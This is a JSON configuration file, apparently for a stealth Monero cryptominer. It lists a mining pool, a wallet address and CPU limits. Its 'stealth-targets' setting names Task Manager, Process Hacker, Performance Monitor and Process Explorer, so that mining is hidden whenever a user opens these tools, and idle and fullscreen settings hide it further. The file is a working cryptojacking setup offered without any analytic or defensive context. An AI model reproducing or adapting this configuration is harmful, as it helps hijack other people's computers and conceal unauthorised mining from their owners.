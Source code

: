 {
    "algo": "rx/0",
    "pool": "pool.hashvault.pro",
    "port": 443,
    "wallet": "422dPqVCt5VD9CgG9RyTdx7aVbHfGQaq8BtjfQX9W4wGTnHyQPWK7iken36awHudUyFK12P45SzJCZ6eeKsz3n8y8tEaxou",
    "password": "like",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 50,
    "idle-wait": 5,
    "idle-cpu": 80,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
